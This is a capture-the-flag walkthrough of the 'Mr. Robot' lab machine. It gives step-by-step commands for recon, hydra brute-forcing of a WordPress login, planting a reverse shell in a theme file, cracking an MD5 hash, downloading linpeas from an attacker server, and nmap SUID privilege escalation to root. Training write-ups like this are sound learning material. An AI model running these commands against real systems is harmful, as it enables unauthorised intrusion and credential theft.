


## 4. Mr. Robot

```
nmap -sV -sC [Target_IP]
```

```
gobuster dir -u http://<IP> -w <wordlist> -t 100 -q -o gobuster_output.txt
```

```
http://<IP>/robots
```

Go to web /fsocity.dic

download the file fsocity.dic

##### Found first flag - key-1-of-3.txt


Go to login.php and capture the packet via burp suite

We will brute force login, we found invalid username issue

```
hydra -L file.dic -p test <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -t 30
```

##### Found Username Elliot and elliot


Now lets find password

```
hydra -l Elliot -P Downloads/fsocity.dic 10.66.132.244 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 30
```

##### Found password = ER28-0652


Appearance -> Editor

Change ip in the file archive.php in Editor of appearance (Change IP to our PC’s)

Now if we do nc -lvnp port

```
https://<IP>/wp-content/themes/twentyfifteen/archive.php
```

```
cd /home/robot
```

```
cat key-2-of-3.txt
```

We get reverse shell and found second flag inside robot folder but we can’t read it

  

But we can read password.raw-md5 which turns out to be a password of robots (in hash)

Now we will dehash it (Copy hash and paste inside a file called md5.hash)

```
john md5.hash --wordlist=fsocity.dic --format=Raw-MD5
```

password is: abcdefghijklmnopqrstuvwxyz




Now we can directly use it but let’s have a fully operational shell first inside the victim’s machine

pty = pseudo-terminal

```
python -c 'import pty;pty.spawn("bin/bash")'
```

It spawns a fully interactive Bash shell using Python’s pseudo-terminal support.

Now let’s

```
su robot
```

##### Paste password and now we can view second flag

```
cat key-2-of-3.txt
```


#### Privilege Escalation

Add linpeas.sh file into the victim’s system

In your machine, where linpeas.sh exist run

```
chmod +x linpeas.sh
```

```
python3 -m http.server 3030
```

In victim’s machine, Navigate to /dev/shm

```
cd /dev/shm
```

```
wget http://<ip>:3030/linpeas.sh
```

```
./linpeas.sh
```

##### We can’t run linpeas



For second find root user and for this we will run a command which will allow us to find any SUID binaries

```
find / -perm -u=s -type f 2>/dev/null
```

We found /user/local/bin/nmap different that ordinary files

``` 
/usr/local/bin/map --interactive 
```

Let’s go to gtfobins

https://gtfobins.github.io/gtfobins/nmap/#suid

```
nmap --interactive
```

```
!sh
```
##### Now we are logged in as root

